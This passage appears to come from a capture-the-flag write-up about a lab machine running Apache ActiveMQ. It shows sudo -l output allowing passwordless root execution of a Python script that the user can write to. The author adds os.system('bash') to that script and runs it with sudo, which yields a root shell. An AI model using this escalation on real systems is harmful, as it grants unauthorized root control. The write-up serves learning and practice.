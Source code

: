 drwxr-xr-x 1 activemq activemq     4096 Dec 25 18:16 conf
drwxr-xr-x 1 activemq activemq     4096 Dec 26 04:45 data
-rw-r--r-- 1 activemq activemq       23 Dec 25 18:16 flag.txt
drwxr-xr-x 1 activemq activemq     4096 Dec 25 18:16 lib
-rw-r--r-- 1 activemq activemq       51 Mar 15 00:31 shl.sh
-r-x------ 1 activemq activemq      143 Dec 25 17:50 start.sh
-rw-rw-r-- 1 activemq activemq      768 Dec 25 17:50 subscribe.py
drwxr-sr-x 5 activemq activemq     4096 Mar 14 23:15 tmp
drwxr-xr-x 1 activemq activemq     4096 Dec 25 18:17 webapps
```
We can also find what Paul and Max have been talking about in chat.py, and find the following after trying to sudo -l
```
activemq@activemq:/opt/apache-activemq-5.9.0$ sudo -l
sudo -l
Matching Defaults entries for activemq on activemq:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User activemq may run the following commands on activemq:
    (root) NOPASSWD: /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```
We can exectute subscribe.py as root with no password and furthermore are the activemq user and can directly edit this file so we do the following edit at the beginning of the file
```
import paho.mqtt.client as mqtt
import os

os.system("bash")
```
this will immediately drop us onto a root shell upon running
```
activemq@activemq:/opt/apache-activemq-5.9.0$ sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
root@activemq:/opt/apache-activemq-5.9.0#
```
we can then find the root flag in the root directory.